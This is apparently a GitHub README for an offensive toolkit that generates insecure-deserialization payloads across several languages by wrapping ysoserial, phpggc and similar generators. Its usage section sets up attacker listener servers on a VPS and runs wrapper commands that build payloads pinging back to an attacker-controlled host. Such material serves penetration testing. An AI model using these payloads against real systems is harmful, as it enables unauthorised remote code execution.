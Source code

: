 # INSECURE DESERIALIZATION SCRIPTS
This collection contains various tools for generating serialized payloads in different programming languages.

## TOOLS
* [Java - ysoserial](https://github.com/frohoff/ysoserial)
    * [jargadgets.txt]()
* [C# - ysoserial.net](https://github.com/pwntester/ysoserial.net/)
    * [RunYsoserial.ps1]() - Wrapper around ysoserial.net using all possible gadgets and formatters.
    * [netgadgets.txt]()
    * [netformatters.txt]()
* [Python - python_deser.py](PLACEHOLDER)
    * (Modified [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator))
* [Ruby - ruby_deser_vx](PLACEHOLDER)
    * ([deser-ruby](https://github.com/klezVirus/deser-ruby) is an alternative tool for Ruby v3 which also supports YAML generation)
* [PHP - phpggc](https://github.com/ambionics/phpggc)
    * [php_deser.sh]() - Wrapper around phpggc that generates payloads from all possible gadgets in base64 format. 
    * [phpgadgets.txt]()
* [Node.js - deser-node.js](https://github.com/klezVirus/deser-node)
    * With deletec console.log() for clean output.
* [crimson_deser.sh]() - Wrapper around all generators except .NET

## USAGE
#### ON VPS
```bash
# TERMINAL 1
echo 123 > fake.dll
sudo impacket-smbserver deser . -smb2support
# TERMINAL 2
updog -p 443 --ssl 2>&1 | tee -a https.logs
# TERMINAL 3
python3 -m http.server 80 2>&1 | tee -a http.logs
# TERMINAL 4
sudo tcpdump -i any icmp -ttttt -w - -U | tee icmp.logs | tcpdump -r -
```
#### ON WINDOWS
```powershell
# In ysoserial directory
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'base64' -outputFile 'deser.txt'
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'hex' -outputFile 'deser.txt'
```

#### ON UNIX
```
./crimson_deser.sh "ping VPS_IP" "VPS_IP" "DOMAIN_COLLAB"
```

